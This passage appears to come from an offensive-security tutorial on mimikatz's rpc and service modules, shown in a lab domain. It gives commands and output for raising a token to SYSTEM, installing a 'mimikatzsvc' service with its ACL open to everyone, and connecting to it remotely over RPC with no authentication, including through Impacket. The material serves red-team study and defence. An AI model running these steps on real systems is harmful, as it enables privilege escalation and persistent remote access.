

# +

It installs `mimikatzsvc` by issuing `rpc::server service::me exit`. 

```text
mimikatz # privilege::debug
Privilege '20' OK
```

```text
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

752     {0;000003e7} 0 D 44299          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 -> Impersonated !
 * Process Token : {0;002cfce0} 4 F 118309013   hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730  (13g,24p)       Primary
 * Thread Token  : {0;000003e7} 0 D 118617400   NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Impersonation (Delegation)
```

```text
mimikatz # service::+
[*] 'mimikatzsvc' service not present
[+] 'mimikatzsvc' service successfully registered
[+] 'mimikatzsvc' service ACL to everyone
[+] 'mimikatzsvc' service started
```



The same methods as demonstrated on the `rpc::connect` section can be used to authenticate, without providing a username and password, over RPC:

```text
mimikatz # rpc::connect /remote:192.168.0.10 /noauth
[rpc] Remote   : 192.168.0.10
[rpc] ProtSeq  : ncacn_ip_tcp
[rpc] Endpoint : (null)
[rpc] Service  : (null)
[rpc] AuthnSvc : NONE (0)
[rpc] NULL Sess: no
Algorithm: CALG_3DES (00006603)
Endpoint resolution is OK
mimikatz is bound!

mimikatz # *hostname
Win10.hacklab.local (WIN10)
```

```text
# python3 mimikatz.py 192.168.0.10
Impacket v0.9.24.dev1+20210928.152630.ff7c521a - Copyright 2021 SecureAuth Corporation


  .#####.   mimikatz RPC interface
 .## ^ ##.  "A La Vie, A L' Amour "
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'    Impacket client by Alberto Solino (@agsolino)    * * */


Type help for list of commands
mimikatz # hostname
Win10.hacklab.local (WIN10)
```

